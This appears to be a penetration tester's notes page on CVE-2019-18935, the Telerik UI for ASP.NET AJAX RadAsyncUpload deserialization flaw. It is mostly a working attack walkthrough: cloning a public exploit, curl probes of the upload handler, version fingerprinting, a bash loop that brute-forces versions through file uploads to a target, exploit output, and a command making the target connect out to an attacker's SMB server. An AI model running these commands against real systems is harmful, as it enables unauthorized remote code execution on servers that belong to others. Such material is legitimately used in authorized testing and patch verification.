 ```yaml
---
title : "CVE-2019-18935"
# pre : ' '
description : "Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution."
date : 2021-01-18T13:14:31+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-18935 - Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution

{{%attachments title="Related files" fa_icon_class="far fa-file-pdf" pattern=".*(pdf)"/%}}

## Installation

```plain
git clone https://github.com/noperator/CVE-2019-18935.git
```

### Confirm that the file upload handler is registered

```plain
curl -sk <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```

### Check version of the software installed

#### Without authentication

If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version buried somewhere in the HTML source of the application's home page. The location of the version string isn't consistent, though, so the best method of locating it is to use Burp to search for the regular expression ```20[0-9]{2}(\.[0-9]*)+``` (and make sure you check the "Regex" box). You can also accomplish this with cURL:

```plain
curl -skL <host> | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'
```

If that doesn't work, you can alternatively search for the string ```<script src="/WebResource``` to identify any JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its ```Last-Modified``` date in the HTTP response header; that date should roughly match the release date of the software. For example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013) will read ```Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT``` in the HTTP response header for that file.

#### With authentication

If the application does require authentication, then you may be able to determine the software version via brute force. Since uploading a file with RadAsyncUpload requires providing the correct version of Telerik UI, you can use Paul Taylor's [RAU_crypto](https://github.com/bao7uo/RAU_crypto) exploit to submit file upload requests with known-vulnerable versions until you find one that works:

```plain
echo 'test' > testfile.txt
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do
    echo -n "$VERSION: "
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
done
```

When the file upload succeeds, you'll see a JSON response containing some encrypted data about the uploaded file:

```plain
{"fileInfo":{"FileName":"<NAME>","ContentType":"text/html","ContentLength":<LENGTH>,"DateJson":"<DATE>","Index":0}, "metaData":"VGhpcyBpc24ndCByZWFsIGRhdGEsIGJ1dCB0aGUgQmFzZTY0LWVuY29kZWQgZGF0YSBsb29rcyBqdXN0IGxpa2UgdGhpcy4=" }
```

## Examples

#### Check version

```plain
$ curl -skL https://example.com/ | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'              
2015.2.623.40
2015.2.623.40
2015.2.623.40
2015.2.623.40
```

#### Upload test file

```plain
$ python3 CVE-2019-18935.py -p test.txt -t -f 'C:\Windows\Temp' -u https://www.example.com/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623
[*] Local payload name:  test.txt
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1610022896.082644.txt

{'fileInfo': {'ContentLength': 5,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1610022896.082644.txt',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2015.2.623.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1610022896.082644.txt.tmp'}}

[*] Heads up! Payload was renamed on target from "1610022896.082644.txt" to "1610022896.082644.txt.tmp". Will adjust automatically while deserializing; otherwise, if deserializing manually with the "-d" option, use the "-r" option to specify the accurate, renamed payload on target.
```

### Triggering SMB-outbound

```plain
python3 CVE-2019-18935.py -u https://<host>/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623 -s <ip-of-smb-server> -d
```

## URL List

* [Labs.bischopfox.com - RCE explanation](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-18935)
* [Tenable.com](https://www.tenable.com/cve/CVE-2019-18935)
